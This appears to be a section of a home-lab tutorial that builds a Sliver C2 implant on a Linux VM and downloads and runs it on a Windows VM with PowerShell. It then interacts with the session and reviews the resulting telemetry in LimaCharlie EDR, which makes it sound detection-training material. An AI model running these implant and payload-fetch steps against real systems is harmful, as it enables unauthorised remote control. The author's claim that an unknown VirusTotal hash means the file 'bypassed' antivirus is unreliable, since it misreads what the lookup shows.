 1️⃣ Generating the C2 Payload

Jump into an SSH session on the Linux VM (same as Part 1).

  a)Switch to the root user and navigate to the Sliver installation directory:
  ```bash
    sudo su
    cd /opt/sliver
```
![Screenshot (654)](https://github.com/user-attachments/assets/c9ecf990-1cc0-433f-928a-75f349e661c5)

  b)Start the Sliver C2 server:
  ```bash
sliver-server
```
  c)Generate a new Sliver payload (replace [Linux_VM_IP] with your actual Linux VM IP):
  ```bash
generate --http [Linux_VM_IP] --save /opt/sliver
```
  d)Confirm that the payload was generated correctly:
  ```bash
implants
```
![Screenshot (655)](https://github.com/user-attachments/assets/c6fb12be-0729-4d66-9335-8d0bcf49f4ce)

2️⃣ Transferring the C2 Payload to Windows VM

To easily transfer the payload from Linux → Windows, we’ll spin up a simple HTTP server on the Linux VM:

a)Navigate to the Sliver directory and start a Python web server:
```bash
cd /opt/sliver
python3 -m http.server 80
```
![Screenshot (657)](https://github.com/user-attachments/assets/104a996d-4435-4f12-be11-18fa5c8578aa)

b)On the Windows VM, download the payload using PowerShell (replace [Linux_VM_IP] and [payload_name] with actual values):
```bash
IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe
```
3️⃣ Starting the Command & Control Session

1)Stop the Python web server on the Linux VM (Press Ctrl + C).

2)Restart the Sliver server:
```bash
sliver-server
```
3)Start the Sliver HTTP listener:
```bash
http
```
![Screenshot (658)](https://github.com/user-attachments/assets/93bbcc1a-3c84-4f07-b6a2-6b19a767803d)

4)On the Windows VM, execute the C2 payload from the Downloads folder (must be run as Administrator):
```bash
C:\Users\User\Downloads\<your_C2-implant>.exe
```

4️⃣ Interacting with the C2 Session

Once the implant session is active, interact with it:
1)List active sessions (find your session ID):
```bash
sessions
```
![Screenshot (659)](https://github.com/user-attachments/assets/f0a096b9-b88d-4427-96bb-55efa7bc711d)

2)Use the active session (replace [session_id] with yours):
```bash
use session[id]
```
3)Find out the user running the implant and their privileges:
```bash
whoami
getprivs
```
![Screenshot (660)](https://github.com/user-attachments/assets/1b3f3dba-04e3-4c92-b860-8dbf04974f8a)

4)List running processes on the Windows VM:
```bash
ps -T
```
![Screenshot (662)](https://github.com/user-attachments/assets/e342896c-8188-498e-b4e6-2304ea22b20a)

5️⃣ Observing EDR Telemetry in LimaCharlie
1)Go to LimaCharlie Dashboard → Click "Sensors" on the left menu.

![Screenshot (663)](https://github.com/user-attachments/assets/c5b9cbb5-d021-4062-a9d4-99fe77dbaf56)

2)Click on the Windows sensor (your victim machine).

3)Check for malicious activity:
a)Click "Processes" to view running processes.

![Screenshot (664)](https://github.com/user-attachments/assets/e48475e8-8fae-4ff7-83bc-666bb9e15948)

b)Click "Network" to analyze connections.

c)Click "File System" to inspect file changes.

![Screenshot (666)](https://github.com/user-attachments/assets/201d0a84-b3f0-4c4e-951f-9ead078eeb41)

d)Scan the payload’s hash using VirusTotal.

![Screenshot (669)](https://github.com/user-attachments/assets/5ad1a658-ab8c-4b88-87c6-ff27da3e53f5)

As you  can see above no file found in the Virus Total means our virus file is innocent in terms can virus and it is bypassed by the virus total.

e)Click “Timeline” to view real-time logs streaming from the Windows VM.


![Screenshot (670)](https://github.com/user-attachments/assets/2113673b-4532-4775-b9f8-ee595fb816ef)

